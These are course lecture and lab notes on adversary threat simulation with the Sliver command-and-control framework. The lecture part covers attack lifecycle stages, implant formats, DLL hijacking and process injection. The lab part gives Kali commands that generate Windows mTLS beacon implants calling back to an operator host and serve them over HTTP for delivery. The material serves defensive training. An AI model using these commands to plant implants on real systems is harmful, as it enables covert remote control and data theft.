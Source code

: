 # Threat Simulation: Command and Control

## Lecture Notes: Threat Simulation Using Sliver C2

### Threat Simulation

* a proactive cybersecurity strategy designed to mimic real-world attack behaviors within a controlled environment
* the purpose of threat simulation is to provide a safe, realistic scenario where defenders can observe and practice responses to simulated cyber threats without the risks associated with actual attacks
* involves simulating/emulating tactics, techniques, and procedures (TTPs) commonly used by threat actors to test the effectiveness of an organization's defenses, detection capabilities, and incident response workflows

#### Why Use Threat Simulations

* helps security teams understand how specific threat actors operate and how various attack vectors might exploit vulnerabilities within their environment
* through threat simulation exercises, cybersecurity professionals can refine their skills in detecting, mitigating, and recovering from cyber incidents, strengthening the overall resilience of their organization

### Common Threats

* execution
  * the adversary is trying to run malicious code
* ransomware
  * adversaries may encrypt data on target systems in a network to interrupt availability to system and network resources
* persistence
  * the adversary is trying to maintain their foothold
* lateral movement
  * the adversary is trying to move through your environment
* remote access
  * using legitimate desktop support and remote access software to establish an interactive command and control channel to target systems within networks
* Powershell
  * adversaries may abuse Powershell commands and scripts for execution
* user behavior
  * normal user activity and behavior
* C2
  * the adversary is trying to communicate with compromised systems and control them

### Threat Attack Life Cycle

* initial recon
  * identify exploitable vulnerabilities
* initial compromise
  * gain initial access into target
* establish foothold
  * strengthen position within target
* escalate privileges
  * steal valid user credentials
* internal recon -> lateral movement -> maintain presence -> escalate privileges\\
  * identify target data
* complete mission
  * package and steal target data

### Why Use a C2

* designed to provide the capability to perform post-exploitation tasks, maintain access to systems, and work collaboratively with teams to achieve organization objectives
* management and remote admin
* persistence
* recon and lateral movement
* evasion
* scalability
* data exfil

### Sliver C2

* a powerful C2 framework designed to provide advanced capabilities for covertly managing and controlling remote systems
* uses different secure and reliable communication channels: mutual TLS, HTTP(S), DNS, or Wireguard
* functionality: execute commands, gather information, and perform various post-exploitation activities
* has a user-friendly console interface and support for multiple operating systems and multiple CPU architectures

#### Implants and Injections

* Sliver is written in GoLang, so its implants are cross-platform compatible
* operators can generate implants in several formats:
  * shellcode
    * Assembly
    * often used for injection into applications
  * executable
  * shared library/DLL
    * useful if you know that an application is loading a library- you can replace that library or a missing library with your malicious implant
    * can see libraries loaded (and failed to load) by an EXE in ProcMon
  * service
* Sliver utilizes process injection as a core part of many default commands or capabilities, such as;
  * migrate
    * Windows has different desktops (security boundaries), and starting tools like a keylogger as a child of another service will limit you to the desktop of that service
    * explorer.exe has access to all
  * spawndll
  * sideload
  * msf-inject
  * execute-assembly
  * getsystem
  * Beacon Object Files (BOFs)
  * other third-party tooling

## Lab Notes: Sliver C2

### Kali (Sliver) Configuration

* snapshot
* set network adapter to LAN
* configure network settings

<figure><img src=".gitbook/assets/{2BE63BE6-0A5D-4006-A511-CFC5E19F17F3}.png" alt=""><figcaption></figcaption></figure>

```
sudo adduser shapiro
sudo usermod -aG sudo shapiro
sudo hostnamectl set-hostname kali01-shapiro
sudo apt install sliver
sliver-server
[server] sliver > multiplayer
[server] sliver >  jobs
[server] sliver > new-operator -n shapiro -l 10.0.5.20
sliver-client import /home/shapiro/shapiro_10.0.5.20.cfg
sliver-client
sliver > sessions
sliver > profiles new --mtls 10.0.5.20 --format ex --os windows --arch amd64 windows-session
sliver > profiles new beacom --mtls 10.0.5.20  --format exe --seconds 5 --jitter 3 --os windows --arch amd64 windows-beacon
sliver > profiles generate --save ~/Public/beacon1.exe windows-beacon
cd ~/Public
file imp1.exe beacon1.exe
sudo python3 -m http.server 80
sudo mkdir /var/www/html/files
sudo cp ~/Public/*.exe /var/www/html/files/
ls -lha /var/www/html/files/
sliver > sessions
[server] sliver > mtls
```
